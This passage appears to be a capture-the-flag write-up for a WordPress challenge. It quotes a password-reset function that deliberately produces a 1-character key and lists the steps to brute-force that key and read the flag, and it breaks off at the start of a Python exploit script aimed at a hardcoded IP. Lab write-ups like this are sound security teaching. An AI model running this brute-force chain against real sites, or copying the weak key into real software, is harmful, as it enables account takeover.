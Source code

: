 **Vulnerable Code: Weak Activation Key**\
In the get_password_reset_key2 function, we can see that user_activation_key only generates a 1-character key, whereas according to WordPress documentation, it should be 20 characters long (Read [source](https://developer.wordpress.org/reference/functions/get_password_reset_key/)). This means we can bruteforce this 1-character key.

```php
    // ...
    // Generate something random for a password reset key.
    $key = wp_generate_password(1, false);
	// ...
    do_action("retrieve_password_key", $user->user_login, $key);

    // Now insert the key, hashed, into the DB.
    if (empty($wp_hasher)) {
        require_once ABSPATH . WPINC . "/class-phpass.php";
        $wp_hasher = new PasswordHash(8, true);
    }

    $key_saved = wp_update_user([
        "ID" => $user->ID,
        "user_activation_key" => $hashed,
    ]);

    if (is_wp_error($key_saved)) {
        return $key_saved;
    }

    return $key;
```

The charset used is "./0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz", as can be seen in the class-phpass.php file (Read [source](https://github.com/WordPress/WordPress/blob/master/wp-includes/class-phpass.php)).

The bruteforce attack is performed by sending a GET request to /wp-login.php?action=rp&key={key}&login={username}

**Exploitation:**\
Okay, now we know the flow to obtain the flag:

1. Register a user with the subscriber role by sending a request to /wp-json/user/v1/create.
2. Reset the password of the registered user by sending a request to /wp-admin/admin-ajax.php?action=reset_key.
3. Obtain the activation key by bruteforcing the weak key by sending a GET request to /wp-login.php?action=rp&key={key}&login={username}.
4. Generate the nonce by sending a request to /wp-admin/admin-ajax.php?action=get_latest_posts.
5. Read the flag using the nonce.

Here is the automation script I used:

```python
import requests
import json
from urllib.parse import *

URL = 'http://100.25.255.51:9093/'

class Exploit:
	def __init__(self, username, email, newpassword, url=URL):
		self.url = url
		self.session = requests.session()
		self.username = username
		self.email = email
		self.newpassword = newpassword

	def register(self):
```